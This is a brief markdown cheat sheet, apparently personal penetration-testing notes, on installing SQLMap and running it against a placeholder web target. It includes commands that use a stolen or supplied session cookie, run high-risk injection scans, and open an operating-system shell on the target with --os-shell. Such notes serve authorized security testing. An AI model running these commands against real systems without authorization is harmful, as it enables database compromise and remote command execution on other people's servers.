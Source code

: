 ## SQLMap

**Install:**
* `git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`
* Update `~/.bash_aliases` with the following entry: `alias sqlmap="python3 /home/azureuser/src/sqlmap-dev/sqlmap.py"`

**Usage:**s
* `sqlmap -u '${T}/path?search=the+query' --cookie="PHPSESSID=${cookie}"` - cookie is needed for authentication
* `sqlmap -r ${req_file} --risk=3 --level=3 --batch --force-ssl` 
* To grab a shell: `sqlmap -u '${T}/path?search=the+query' --cookie="PHPSESSID=${cookie}" --os-shell`